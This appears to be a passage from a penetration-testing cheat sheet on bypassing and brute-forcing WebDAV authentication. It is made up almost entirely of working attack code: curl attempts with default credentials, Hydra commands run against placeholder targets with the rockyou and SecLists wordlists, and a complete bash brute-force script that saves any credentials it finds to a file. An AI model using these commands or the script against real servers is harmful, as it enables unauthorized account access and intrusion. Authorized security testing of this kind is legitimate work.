 ## Authentication Bypass and Brute-Forcing

### Manual Authentication Testing

```bash
# Test default credentials
curl -u admin:admin http://<target_ip>/webdav/
curl -u administrator:password http://<target_ip>/webdav/
curl -u guest:guest http://<target_ip>/webdav/
```

### Automated Brute-Force with Hydra

```bash
# Basic Hydra syntax for WebDAV
hydra -L <user_list> -P <password_list> <target_ip> http-get /webdav/

# Example with common wordlists
hydra -L /usr/share/wordlists/metasploit/common_users.txt \
      -P /usr/share/wordlists/metasploit/common_passwords.txt \
      <target_ip> http-get /webdav/

# More comprehensive attack
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt \
      -P /usr/share/wordlists/seclists/Passwords/rockyou.txt \
      <target_ip> http-get /webdav/ -t 10 -w 30
```

### Custom Brute-Force Script

```bash
#!/bin/bash
# webdav_brute.sh
TARGET=$1
USER_LIST="/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt"
PASS_LIST="/usr/share/wordlists/seclists/Passwords/rockyou.txt"

echo "[*] Starting WebDAV brute force on $TARGET"

while IFS= read -r user; do
    while IFS= read -r pass; do
        response=$(curl -s -o /dev/null -w "%{http_code}" -u "$user:$pass" "http://$TARGET/webdav/")
        if [ "$response" -eq 200 ]; then
            echo "[+] Valid credentials found: $user:$pass"
            echo "$user:$pass" > webdav_credentials.txt
            exit 0
        fi
    done < "$PASS_LIST"
done < "$USER_LIST"

echo "[-] No valid credentials found"
```
